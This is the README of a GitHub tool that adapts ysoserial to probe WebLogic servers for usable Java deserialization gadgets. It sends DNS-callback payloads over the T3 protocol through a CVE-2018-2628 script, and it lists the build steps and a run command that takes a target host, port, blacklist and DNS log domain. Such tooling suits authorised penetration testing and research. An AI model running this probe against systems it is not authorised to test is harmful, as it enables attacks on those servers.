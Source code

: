 ## weblogic-gadget-probe

- modified from [ysoserial](https://github.com/frohoff/ysoserial)
- added dns gadget probe for weblogic 
    - generate dns callback payload and packed into t3 protocol format (using cve-2018-2628 script)
- How to use
    - `mvn clean package -DskipTests` (Build ysoserial with my probe payload)
    - `python auto.py wlsserver.com 7001 black.list mydnslog.tw`

![](https://github.com/w181496/weblogic-gadget-probe/blob/master/demo.png)
